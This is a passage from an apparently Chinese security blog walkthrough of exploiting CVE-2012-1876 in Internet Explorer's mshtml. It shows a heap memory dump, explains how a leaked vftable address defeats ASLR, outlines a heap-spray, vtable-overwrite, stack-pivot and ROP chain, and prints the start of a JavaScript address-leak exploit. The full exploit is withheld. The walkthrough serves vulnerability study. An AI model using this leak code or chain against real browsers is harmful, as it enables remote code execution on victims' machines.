 ```
00525a50  00001004 00410041 00410041 00410041  ....A.A.A.A.A.A.
00525a60  00010048 00001004 00001004 00001004  H...............
00525a70  00410041 00410041 00410041 00010048  A.A.A.A.A.A.H...
00525a80  00001004 00001004 00001004 00410041  ............A.A.
00525a90  00410041 00410041 00010048 00001004  A.A.A.A.H.......
00525aa0  00001004 00001004 00410041 00410041  ........A.A.A.A.
00525ab0  00410041 00010048 00001004 00001004  A.A.H...........
00525ac0  00001004 00000041 3ae939d2 88000000  ....A....9.:....
00525ad0  00010048&lt;--length  00420042 00420042 00420042  H...B.B.B.B.B.B.  &lt;--BSTR
00525ae0  00420042 00420042 00420042 00420042  B.B.B.B.B.B.B.B.
00525af0  00420042 00420042 00420042 00420042  B.B.B.B.B.B.B.B.
00525b00  00420042 00420042 00420042 00420042  B.B.B.B.B.B.B.B.
00525b10  00420042 00420042 00420042 00420042  B.B.B.B.B.B.B.B.
00525b20  00420042 00420042 00420042 00420042  B.B.B.B.B.B.B.B.
00525b30  00420042 00420042 00420042 00420042  B.B.B.B.B.B.B.B.
00525b40  00420042 00420042 00420042 00420042  B.B.B.B.B.B.B.B.
00525b50  00420042 00420042 00420042 00420042  B.B.B.B.B.B.B.B.
00525b60  00420042 00420042 00420042 00420042  B.B.B.B.B.B.B.B.
00525b70  00420042 00420042 00420042 00420042  B.B.B.B.B.B.B.B.
00525b80  00420042 00420042 00420042 00420042  B.B.B.B.B.B.B.B.
00525b90  00420042 00420042 00420042 00420042  B.B.B.B.B.B.B.B.
00525ba0  00420042 00420042 00420042 00420042  B.B.B.B.B.B.B.B.
00525bb0  00420042 00420042 00420042 00420042  B.B.B.B.B.B.B.B.
00525bc0  00420042 00420042 00420042 00000042  B.B.B.B.B.B.B...
00525bd0  3ae939f1 8c000000 6b7c84f8 004dff88&lt;--vrftable  .9.:......|k..M.
00525be0  04fefb30 6b7c8690 &lt;--vrftable 00000001 00000000  0.....|k........
00525bf0  01080809 ffffffff 00000000 00000000  ................
00525c00  00000000 ffffffff 00000080 ffffffff  ................
```

使用如下代码将虚函数表地址提取出来，根据偏移地址001584f8计算出mshtml基地址为0x6b670000。到这里，我们已经完成了地址泄漏，接下来只需要注意使用mshtml自身对gadgets，那么ASLR对我们也就形同虚设了。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://gitee.com/p0kerface/blog_image_management/raw/master/CVE-2012-1876/%E7%BB%95%E8%BF%87ASLR36808.png)[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://gitee.com/p0kerface/blog_image_management/raw/master/CVE-2012-1876/%E7%BB%95%E8%BF%87ASLR36809.png)

地址泄漏之后，通过覆盖虚函数表，需要结合HeapSpray和ROP等技术，大体内容与上一个案例相差无几。不再赘述了。

精确堆喷射-&gt;将rop和shellcode喷射到可控位置

覆盖虚函数表-&gt;将程序导入rop链中-&gt;stack povit将栈帧转移到堆中-&gt;ROP-&gt;PWN

因为我国的网络安全法的试行条例，完整的Exploit就不放出了。不过这个Exploit写出来稳定性还是非常高的，笔者也凭借该漏洞展示，混过了一次课堂作品展示。

[![](https://gitee.com/p0kerface/blog_image_management/raw/master/CVE-2012-1876/%E7%BB%95%E8%BF%87ASLR61827.png)](https://gitee.com/p0kerface/blog_image_management/raw/master/CVE-2012-1876/%E7%BB%95%E8%BF%87ASLR61827.png)

泄露地址的exp

```
&lt;script language='javascript'&gt;  
    Math.sin(2,1)
    var evil_col = document.getElementById("132");  
    //var evil_col = document.getElementById("1"); 
    evil_col.span = "19";

    var leak_addr=-1;
for(var i = 0;i&lt;500;i++)`{`      
//提取虚函数表地址 
        if(arr[i].length&gt;(0x100-6)/2)`{`
            leak_index=i;
            var leak=arr[i].substring((0x100-6)/2+(2+8)/2,(0x100-6)/2+(2+8+4)/2);
```